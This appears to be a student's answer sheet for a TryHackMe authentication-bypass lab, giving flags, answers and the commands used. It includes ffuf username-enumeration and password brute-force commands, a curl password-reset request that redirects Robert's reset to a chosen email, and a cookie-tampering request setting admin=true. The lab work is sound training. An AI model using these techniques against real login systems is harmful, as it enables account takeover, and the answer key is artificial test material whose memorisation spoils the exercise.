

Link to room: https://tryhackme.com/room/authenticationbypass

# Questions:

- Task 1
	- I have started the machine.
		- No answer needed

- Task 2
	- What is the username starting with si*** ?
		- Simon
	- What is the username starting with st*** ?
		- Steve
	- What is the username starting with ro**** ?
		- Robert

	- Command used:
		- ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://xx.xx.xxx.xxx/customers/signup -mr "username already exists"
	- Results
		- 

- Task 3
	- What is the valid username and password (format: username/password)?
		- steve/thunder 

	- Command used:
		- ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://xx.xx.xxx.xxx/customers/login -fc 200
	- File needed:
		- 

- Task 4	
	- What is the flag from Robert's support ticket?
		- How to get the flag?
			1. http://xx.xx.xxx.xxx/customers/signup
			2. curl 'http://xx.xx.xxx.xxx/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' 
			3. URL in ticket
			4. Open Robert's ticket 
		- Flag
			- THM{AUTH_BYPASS_COMPLETE} 

- Task 5
	- What is the flag from changing the plain text cookie values?
		- THM{COOKIE_TAMPERING} 
		- How to get answer
			- curl -H "Cookie: logged_in=true; admin=true" http://xx.xx.xxx.xxx/cookie-test
	- What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
		- 463729
		- How to get answer
			- https://crackstation.net/
			- Insert hash into field and press crack hashes
	- What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
		- THM{BASE64_ENCODING}
		- How to get answer
			- https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=VkVoTmUwSkJVMFUyTkY5RlRrTlBSRWxPUjMwPQ
	- Encode the following value using base64 {"id":1,"admin":true}
		- eyJpZCI6MSwiYWRtaW4iOnRydWV9
		- How to get answer
			- https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=eyJpZCI6MSwiYWRtaW4iOnRydWV9
